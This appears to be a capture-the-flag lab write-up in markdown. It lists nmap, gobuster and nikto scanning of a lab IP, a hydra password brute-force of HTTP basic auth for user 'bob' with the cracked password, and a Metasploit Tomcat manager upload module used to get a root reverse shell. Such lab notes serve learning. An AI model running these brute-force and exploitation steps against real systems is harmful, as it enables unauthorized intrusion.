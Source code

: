 export ip=10.10.86.32

# Recon and Scanning

## nmap
- `sudo nmap -sC -sV -O -oG nmap.log $ip`
  - 80, 22, 1234, 8009

## hydra
- `hydra -l bob -P /usr/share/wordlists/rockyou.txt $ip http-get "/protected"`

## gobuster
- `gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://$ip | tee gobuster.log`
- `gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://$ip:1234 | tee gobuster-1234.log`

## nikto
- `nikto -h http://10.10.86.32:1234/manager/ -id bob:bubbles`

# Process
- from running gobuster we get many directories, one among those is `guidelines`. In this webpage its mentioned that one of the admins of the website is `bob`
- there is another directory called `protected` and it uses http basic auth as the auth mechanism. Considering we know the username, we can try hydra to brute force it.
- hydra breaks the password fairly quickly
- but upon accessing this protected page, it says it's moved to a different port
- so tried one of the open ports from the nmap scan results, 1234, this gives us a few answers
- but couldn't find the protected page, so tried gobuster again on this port, and found a dir called manager, tried the user/pass we got from hydra and we got in
- had a look around and found that this is an older version of tomcat and there are many vilnerabilities.
- I found one which is pretty promising to use to get a shell
  - `multi/http/tomcat_mgr_upload`
- Using metasploit spawned a reverseshell where the user was actually root
- found the final flag inside roots home dir